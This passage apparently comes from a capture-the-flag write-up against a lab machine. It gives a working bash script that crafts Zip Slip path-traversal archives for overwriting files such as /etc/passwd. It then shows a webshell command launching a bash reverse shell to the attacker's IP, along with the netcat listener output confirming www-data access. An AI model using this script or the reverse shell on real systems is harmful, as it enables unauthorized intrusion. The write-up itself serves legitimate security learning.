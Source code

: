 ```
path=$3

if [ "$#" -eq 3 ]; then
    num_ups=8;
else
    num_ups=$4
fi;
num_dirs=$(($num_ups - $(echo $path | tr -cd '/' | wc -c) + 1))

base=$(mktemp -d)
target_dir=$(dirname $path)
current_dir=${base}${target_dir}$(yes "/a" | head -${num_dirs} | tr -d "\n")

mkdir -p ${current_dir}
cp ${file} ${base}${path} 
cd ${current_dir}

trav="$(yes '/..' | head -${num_ups} | tr -d '\n' | cut -c2- | rev)"

zip $outfile "${trav}${path}" >/dev/null
unzip -l $outfile
rm -rf ${base} 

```

Here’s how it runs:

```

root@kali# ./zip_slip.sh 
Usage: ./zip_slip.sh [out_zip] [file] [desired path] <number of ../>
  Number of ../ will be 8 if not given
  desired path must be absolute
  Ex: ./zip_slip.sh evil.zip evil_passwd /etc/passwd 5

```

Since I wrote that while solving, I also found this `python` version, [evilarc.py](https://github.com/ptoomey3/evilarc/blob/master/evilarc.py).

### Shell

Running a basic bash rev shell in the webshell gets me a callback:

```

root@kali# curl http://10.10.10.101/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.7/443 0>&1'"

```

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.101.
Ncat: Connection from 10.10.10.101:52930.
bash: cannot set terminal process group (10): Inappropriate ioctl for device
bash: no job control in this shell
www-data@Aogiri:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```
